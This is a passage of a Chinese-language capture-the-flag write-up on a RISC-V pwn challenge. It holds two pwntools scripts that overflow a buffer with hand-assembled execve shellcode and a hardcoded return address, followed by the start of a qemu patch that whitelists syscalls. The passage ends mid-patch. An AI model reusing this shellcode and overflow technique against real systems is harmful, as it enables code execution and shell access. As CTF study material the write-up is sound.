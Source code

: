 ```python
from pwn import *
context(log_level='debug')
io = process(['qemu-riscv64','./main'])

shellcode =  b'\x01\x11\x06\xec\x22\xe8\x13\x04'
shellcode += b'\x21\x02\xb7\x67\x69\x6e\x93\x87'
shellcode += b'\xf7\x22\x23\x30\xf4\xfe\xb7\x77'
shellcode += b'\x68\x10\x33\x48\x08\x01\x05\x08'
shellcode += b'\x72\x08\xb3\x87\x07\x41\x93\x87'
shellcode += b'\xf7\x32\x23\x32\xf4\xfe\x93\x07'
shellcode += b'\x04\xfe\x01\x46\x81\x45\x3e\x85'
shellcode += b'\x93\x08\xd0\x0d\x93\x06\x30\x07'
shellcode += b'\x23\x0e\xd1\xee\x93\x06\xe1\xef'
shellcode += b'\x67\x80\xe6\xff'

io.sendline(b'a'*8+shellcode.ljust(280,b'a')+p64(0x40007ffe58))
io.interactive()
```

或者采用自己编译的shellcode：

```python
from pwn import *
context(log_level='debug')
io = process(['qemu-riscv64','./main'])
shellcode  = b"\xb7\xa4\x43\x03\x9b\x84\x94\x97"
shellcode += b"\xb2\x04\x93\x84\x74\x7b\xb2\x04"
shellcode += b"\x93\x84\xb4\x34\xb6\x04\x93\x84"
shellcode += b"\xf4\x22\x23\x38\x91\xfe\x23\x3c"
shellcode += b"\x01\xfe\x13\x05\x01\xff\x93\x25"
shellcode += b"\xf0\xff\x13\x26\xf0\xff\x93\x08"
shellcode += b"\xd0\x0d\x73\x00\x00\x00"
io.sendline(shellcode.ljust(288,b'a')+p64(0x40007ffe58))
io.interactive()
```

本地可以getshell成功，故题目也是可以输入空字符的，而将qemu换成题目的qemu-riscv64后，就会提示不合法的syscall：

```
Input the flag: You are wrong ._.
[!] 221 bad system call
```

## 解题

重点就是这个patch：

```patch
diff --git a/linux-user/syscall.c b/linux-user/syscall.c
index 27adee9..2d75464 100644
--- a/linux-user/syscall.c
+++ b/linux-user/syscall.c
@@ -13101,8 +13101,31 @@ abi_long do_syscall(void *cpu_env, int num, abi_long arg1,
         print_syscall(cpu_env, num, arg1, arg2, arg3, arg4, arg5, arg6);
     }
 
-    ret = do_syscall1(cpu_env, num, arg1, arg2, arg3, arg4,
-                      arg5, arg6, arg7, arg8);
+    switch (num) {
+        // syscall whitelist
+        case TARGET_NR_brk:
+        case TARGET_NR_uname:
+        case TARGET_NR_readlinkat:
+        case TARGET_NR_faccessat:
+        case TARGET_NR_openat2:
+        case TARGET_NR_openat:
```